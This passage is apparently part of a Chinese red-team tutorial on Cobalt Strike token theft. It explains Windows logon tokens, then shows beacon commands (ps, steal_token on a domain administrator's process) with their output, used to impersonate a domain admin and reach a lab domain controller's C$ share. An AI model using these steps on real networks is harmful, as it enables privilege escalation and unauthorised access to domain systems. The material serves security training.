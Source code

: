 ### 登录令牌

* 登录令牌在登录之后被创建
* 与每个进程和线程相关联
* 包括：
  * 用户和用户组的信息
  * 本地计算机上的特权列表
  * 限制（删除用户和用户组的权限）
  * 参考凭证（支持单点登录）
* 一直保存在内存中，直到系统重启

*以下是令牌窃取的过程：*

* 使用 `ps` 列出进程
* 使用 `steal_token [pid]` 窃取令牌
* 使用 `getuid` 找到你是谁
* 使用 `rev2self` 移除令牌

接下来将对这些命令进行演示，目前有一个 SYSTEM 权限的会话，该会话在 WIN-72A8ERDSF2P 主机下，此时想查看 WIN-P2AASSD1AF1 主机下的文件（WIN-P2AASSD1AF1 主机是 TEAMSSIX 域的域控制器），那么直接运行 dir 会提示拒绝访问。

```powershell
beacon> shell dir \\WIN-P2AASSD1AF1\C$
[*] Tasked beacon to run: dir \\WIN-P2AASSD1AF1\C$
[+] host called home, sent: 55 bytes
[+] received output:
拒绝访问。
```

此时，先用 `ps` 查看一下当前系统进程信息。

```powershell
beacon> ps
[*] Tasked beacon to list processes
[+] host called home, sent: 12 bytes
[*] Process List
 PID   PPID  Name                         Arch  Session     User
 ---   ----  ----                         ----  -------     -----
 0     0     [System Process]                               
 4     0     System                       x64   0           NT AUTHORITY\SYSTEM
……内容太多，此处省略……
 3720  524   taskhost.exe                 x64   2           WIN-72A8ERDSF2P\Administrator
 4092  236   dwm.exe                      x64   3           TEAMSSIX\Administrator
```

通过进程信息可以发现 TEAMSSIX 域下的管理员账户此时在当前 SYSTEM 会话的主机上是登录着的，使用 `steal_token [pid]` 命令窃取 TEAMSSIX\Administrator 账户的令牌

```powershell
beacon> steal_token 4092
[*] Tasked beacon to steal token from PID 4092
[+] host called home, sent: 12 bytes
[+] Impersonated TEAMSSIX\administrator
```

查看一下当前会话 uid
